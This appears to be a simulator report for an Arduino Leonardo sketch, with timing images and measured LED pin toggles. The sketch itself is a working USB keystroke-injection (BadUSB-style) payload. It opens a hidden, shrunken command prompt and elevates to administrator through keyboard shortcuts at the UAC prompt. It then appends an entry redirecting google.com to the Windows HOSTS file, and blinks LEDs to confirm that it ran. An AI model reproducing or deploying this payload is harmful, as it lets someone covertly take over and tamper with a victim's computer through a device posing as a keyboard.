
A sketch run on a simulated Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. Parts: output pins drawn as LEDs (lit = HIGH). USB keyboard and mouse output is not drawn.

Above: at 0.05 s.
Timing chart, 0 to 3.0 s (numbered marks = the images above):


The sketch:

Leonardo_HID_Payload_v1.0.ino
```cpp
#include "Keyboard.h"

int LED1 = 7;
int LED2 = 8;

void setup() {
  pinMode(LED1, OUTPUT);
  pinMode(LED2, OUTPUT);
  pinMode(2, INPUT_PULLUP);
  Keyboard.begin();
}

void loop() {

//LAUNCHES NON-ADMIN CMD PAYLOAD
//===================================//
    delay(5000);
    Keyboard.press(0x83);
    delay(100);
    Keyboard.press('r');
    delay(100);
    Keyboard.releaseAll();
    delay(1000);

    Keyboard.print("cmd /Q /D /T:7F /F:OFF /V:ON /K");
    delay(100);
    Keyboard.press(0xB0);
    delay(100);
    Keyboard.releaseAll();
    delay(200);

//RESIZE CMD WINDOW TO VERY SMALL
    Keyboard.press(0x82);
    delay(100);
    Keyboard.press(' ');
    delay(100);
    Keyboard.press('s');
    delay(100);
    Keyboard.releaseAll();
    delay(1000);

    Keyboard.press(0xD7);
    delay(100);
    Keyboard.releaseAll();
    delay(200);

    for (int x = 0; x < 100; x++){
      Keyboard.press(0xD8);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.press(0xDA);
    delay(100);
    Keyboard.releaseAll();
    delay(200);

    for (int y = 0; y < 100; y++){
      Keyboard.press(0xD9);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.write(0xB0);
    delay(500);

//MOVES WINDOW TO THE BOTTOM LEFT
    Keyboard.press(0x82);
    delay(100);
    Keyboard.press(' ');
    delay(100);
    Keyboard.press('m');
    delay(100);
    Keyboard.releaseAll();
    delay(500);

    for (int i = 0; i < 100; i++){
      Keyboard.press(0xD9);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
      Keyboard.press(0xD8);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.write(0xB0);
    delay(500);

//NON-ADMIN PAYLOAD BEGINS HERE
    Keyboard.print("color 0a");
    delay(100);
    Keyboard.write(0xB0);
    delay(100);
    Keyboard.print("ECHO Check google.com");
    delay(100);
    Keyboard.write(0xB0);
    delay(100);

//LAUNCH CMD AS ADMIN (WORX ON W7)
//===================================//
    delay(500);
    Keyboard.press(0x83);
    delay(100);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.print("cmd");
    delay(2000);

    Keyboard.press(0x80);
    delay(100);
    Keyboard.press(0x81);
    delay(100);
    Keyboard.press(0xB0);
    delay(50);
    Keyboard.releaseAll();
    delay(3000);
    Keyboard.press(0xD8);
    delay(100);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.press(0xB0);
    delay(100);
    Keyboard.releaseAll();
    delay(500);
//ADMIN PAYLOAD BEGINS HERE
    Keyboard.print("cmd /Q /D /T:7F /F:OFF /V:ON /K");
    delay(100);
    Keyboard.write(0xB0);
    delay(100);
    //MAKE WINDOW HIDDEN AGAIN
    Keyboard.press(0x82);
    delay(100);
    Keyboard.press(' ');
    delay(100);
    Keyboard.press('s');
    delay(100);
    Keyboard.releaseAll();
    delay(1000);

    Keyboard.press(0xD7);
    delay(100);
    Keyboard.releaseAll();
    delay(200);

    for (int x = 0; x < 100; x++){
      Keyboard.press(0xD8);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.press(0xDA);
    delay(100);
    Keyboard.releaseAll();
    delay(200);

    for (int y = 0; y < 100; y++){
      Keyboard.press(0xD9);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.write(0xB0);
    delay(500);

    Keyboard.press(0x82);
    delay(100);
    Keyboard.press(' ');
    delay(100);
    Keyboard.press('m');
    delay(100);
    Keyboard.releaseAll();
    delay(500);

    for (int i = 0; i < 100; i++){
      Keyboard.press(0xD9);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
      Keyboard.press(0xD8);
      delay(10);
      Keyboard.releaseAll();
      delay(20);
    }
    Keyboard.write(0xB0);
    delay(500);

    //ACTUAL PAYLOAD
    Keyboard.print("ECHO 204.79.197.200 google.com >> C:/WINDOWS/SYSTEM32/DRIVERS/ETC/HOSTS");
    delay(100);
    Keyboard.write(0xB0);
    delay(100);
    Keyboard.print("exit");
    delay(100);
    Keyboard.write(0xB0);
    delay(100);

//LED CONFIG FOR EXECUTION CONFIRMATION
//===================================//
   for (int w = 0; w < 15; w++){
    digitalWrite(LED1, HIGH);
    digitalWrite(LED2, LOW);
    delay(300);
    digitalWrite(LED1, LOW);
    digitalWrite(LED2, HIGH);
    delay(300);
   }
    digitalWrite(LED1, LOW);
    digitalWrite(LED2, LOW);

//LOOP PREVENTION WITH LONG DELAY
    delay(5000000);
}
```

Measured:
- by itself, pin 7 (LED1): LOW → HIGH at 46.2 s, → LOW 0.30 s later, → HIGH 0.30 s later, → LOW 0.30 s later, … (30 changes in this stretch)
- by itself, pin 8 (LED2): LOW → HIGH at 46.5 s, → LOW 0.30 s later, → HIGH 0.30 s later, → LOW 0.30 s later, … (30 changes in this stretch)
